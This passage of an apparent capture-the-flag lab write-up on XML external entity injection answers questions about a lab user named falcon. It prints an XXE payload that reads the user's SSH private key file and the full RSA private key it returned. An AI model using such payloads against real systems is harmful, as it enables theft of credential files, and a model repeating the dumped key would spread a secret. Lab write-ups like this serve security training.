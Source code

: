 `No answer needed`

3. What is the name of the user in /etc/passwd

```
falcon:x:1000:1000:falcon,,,:/home/falcon:/bin/bash
```

`falcon`

4. Where is falcon's SSH key located?

`/home/falcon/.ssh/id_rsa`

5. What are the first 18 characters for falcon's private key

```xml
<!DOCTYPE any [<!ENTITY passwd SYSTEM 'file///home/falcon/.ssh/id_rsa'>]>

<any>
  <pass>&passwd;</pass>
</any>
```

````
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEA7bq7Uj0ZQzFiWzKc81OibYfCGhA24RYmcterVvRvdxw0IVSC
lZ9oM4LiwzqRIEbed7/hAA0wu6Tlyy+oLHZn2i3pLur07pxb0bfYkr7r5DaKpRPB
2Echy67MiXAQu/xgHd1e7tST18B+Ubnwo4YZNxQa+vhHRx4G5NLRL8sT+Vj9atKN
MfJmbzClgOKpTNgBaAkzY5ueWww9g0CkCldOBCM38nkEwLJAzCKtaHSreXFNN2hQ
IGfizQYRDWH1EyDbaPmvZmy0lEELfMR18wjYF1VBTAl8PNCcqVVDaKaIrbnshQpO
HoqIKrf3wLn4rnU9873C3JKzX1aDP6q+P+9BlwIDAQABAoIBABnNP5GAciJ51KwD
RUeflyx+JJIBmoM5jTi/sagBZauu0vWfH4EvyPZ2SThZPfEb3/9tQvVneReUoSA5
bu5Md58Vho6CD81qCQktBAOBV0bwqIGcMFjR95gMw8RS9m4AyUnUgf438kfja5Jh
NP36ivgQZZFBqzLLzoG9Y9jlGKjiSyMvW4u63ZacCKPTpp5P53794/UVU7JiM03y
OvavZ2QveJp5BndV5lOkcIEFwFRACDK1xwzDRzx/TNJLufztb2EheMc3stNuOMea
TLKlbG0Mp/c2az8vNN6HA0QiwxYlKZ58RfdsOfbsFxAltYNnzxy9UEieXtrWVg7X
Qfi/ZeECgYEA/pfgg6BClEmipXv8hVkLWe7VwlFf4RXnxfWyi6OqC/3Yt9Q9B4Ya
6bgLzk2vPNHgJt+g2yh/TzMX6sCC9IMYedc0faiJr/VISBm25qTjqIGctwt0D3nb
j60mSKKFbwDPxrcek/7WH1cWDcaLTDdL9KPLk1JQzbwDzojrE1TDD+cCgYEA7wsA
MPm4aUDikZHKhQ5OOge+wzPNXVR6Yy1VV3WZfxRCoEuq6fYEJsKB5tykfQPC8cUn
qwGvo8TiMHbQ9KmI5FabfBK8LswQ575bnLtMxdPyBCgYqlsAIkPYQAOizUVlrOOg
faKF5VknsONM9DC3ZNx5L1zQXbsIrWbEPsRlytECgYB7CXr/IZwLfeqUfu7yoq3R
sJKtbhYf+S4hhTPcOCQd13e8n10/HZg0CzXpZbGieusQ3lIml9Ouusp8ML0Y3aIe
f9pmP+UKnEdqUMMLg/RhowHRlD9qm0F4lf1CbQh/NK01I5ore6SPUM7fqWv4UWDr
wZzIfad/RbWxQooYtYXvUQKBgFDLcBIdpYX1x16aX1AfqLMWgRSrQqNj9UXmQa0g
83OvXmGdkbQoUfjjz1I/i10x00cycxjqpfn9htIIptG7J6i92SnTj0Vl9eTOQ1qz
N9y5qVhcURHrVh0+vy3LzNACv73y5gDw2L7PJoo0GYODn8j4eAFZJpg3qlQpovTw
HtOxAoGABqwywFKFNTYgrl17Rs4g3H1nc0EhOzGetRaRL2bcvQsZevuWyswp0Mbm
9nlgNAtxttsmfL+OU7nP3I4YQlyZed4luRWcRaXrvGMqfEL4wzRez5ZxMnZM/IlQ
9DBlD9C7t5MI3aXR3A5zFVVINomwHH7aGfeha1JRXXAtasLTVvA=
-----END RSA PRIVATE KEY-----
````

`MIIEogIBAAKCAQEA7b`

## [Day 5] Broken Access Control
